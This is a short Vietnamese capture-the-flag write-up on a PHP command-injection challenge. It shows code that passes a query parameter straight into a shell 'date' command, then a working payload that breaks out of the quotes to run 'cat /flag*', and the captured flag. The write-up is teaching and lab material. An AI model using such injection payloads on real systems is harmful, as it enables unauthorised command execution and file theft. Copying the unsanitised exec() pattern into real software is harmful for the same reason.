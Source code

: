 Đọc code thì thấy bài này liên quan đến comand injection

Mình sẽ show đoạn code cần quan tâm

Nôm na đoạn này ta chỉ cần thêm tham số /?format=...

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

Hàm này sẽ thực thi nhưng chú ý ta cần phải bypass commnad

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Payload:

```
GET /?format=%Y-%m-%d%2b%H:%M:%S'|cat+/flag*+%23 HTTP/1.1
Host: 18.143.200.117:31210
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Source: https://book.hacktricks.xyz/pentesting-web/command-injection

Flag: CHH{datE_7iME_c0MManD_iNjectI0n_7edc7a102e657201d6e981c301a2722c}
